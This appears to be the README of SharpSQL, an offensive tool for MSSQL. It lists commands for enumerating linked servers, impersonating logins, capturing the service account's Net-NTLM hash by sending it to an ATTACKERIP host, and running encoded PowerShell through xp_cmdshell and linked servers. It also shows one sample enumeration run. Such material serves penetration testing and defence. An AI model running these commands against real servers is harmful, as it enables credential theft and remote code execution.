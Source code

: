 # SharpSQL

----

### Command Line Usage


    ███████ ██   ██  █████  ██████  ██████  ███████  ██████  ██
    ██      ██   ██ ██   ██ ██   ██ ██   ██ ██      ██    ██ ██
    ███████ ███████ ███████ ██████  ██████  ███████ ██    ██ ██
         ██ ██   ██ ██   ██ ██   ██ ██           ██ ██ ▄▄ ██ ██
    ███████ ██   ██ ██   ██ ██   ██ ██      ███████  ██████  ███████
                                                        ▀▀
    Written By: Jb05s | Version: 1.1.0

    MSSQL Authenticated Server Enumeration and Impersonation:
        [1] Retrieve a List of Linked SQL Servers on the Connected SQL Server:
            SharpSQL.exe getlinked /db:DATABASE /server:SERVER [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Retrieve Information on SQL Login, Mapped User, and Available User Roles:
            SharpSQL.exe getdbuser /db:DATABASE /server:SERVER [/impersonate] [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Retrieve SQL Logins Available for Impersonation and Impersonate the Available Login:
            SharpSQL.exe getlogin /db:DATABASE /server:SERVER [/impersonate] [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [4] Retrieve the Net-NTLM Hash for the Service Account of the Connected SQL Server:
            SharpSQL.exe gethash /db:DATABASE /server:SERVER /ip:ATTACKERIP [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    MSSQL Command Execution:
        [1] Execute Encoded PowerShell Command via 'xp_cmdshell':
            SharpSQL.exe xp /db:DATABASE /server:SERVER /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Execute Encoded PowerShell Command via 'Ole Automation Procedures':
            SharpSQL.exe ole /db:DATABASE /server:SERVER /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
    MSSQL Linked Server Command Execution:
        [1] Execute Encoded PowerShell Command on Linked SQL Server via 'xp_cmdshell' with 'OPENQUERY':
            SharpSQL.exe linkedquery /db:DATABASE /server:SERVER /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Execute Encoded PowerShell Command on Linked SQL Server via 'xp_cmdshell':
            SharpSQL.exe linkedxp /db:DATABASE /server:SERVER /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Configure Linked SQL Server to Allow RPC connections:
            SharpSQL.exe rpc /db:DATABASE /server:SERVER /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
    MSSQL Double Linked Server Command Execution:
        [1] Execute Encoded PowerShell Command on a Double Linked SQL Server via 'xp_cmdshell':
            SharpSQL.exe dbllinkedxp /db:DATABASE /server:SERVER /intermediate:INTERMEDIATE /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]


### getlinked

    C:\SharpSQL>SharpSQL.exe getlinked /db:master /server:SQL1

    ███████ ██   ██  █████  ██████  ██████  ███████  ██████  ██
    ██      ██   ██ ██   ██ ██   ██ ██   ██ ██      ██    ██ ██
    ███████ ███████ ███████ ██████  ██████  ███████ ██    ██ ██
         ██ ██   ██ ██   ██ ██   ██ ██           ██ ██ ▄▄ ██ ██
    ███████ ██   ██ ██   ██ ██   ██ ██      ███████  ██████  ███████
                                                        ▀▀
    Written By: Jb05s | Version: 1.1.0
        
    [*] Action: Retrieve Linked Servers
        Usage: SharpSQL.exe getlinked /db:DATABASE /server:SERVER [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    [+] Authentication to the 'master' Database on 'SQL1' Successful!
    [*] Linked SQL server: SQL2
    [*] Linked SQL server: SQL1\SQLEXPRESS


### getdbuser



### getlogin



### gethash
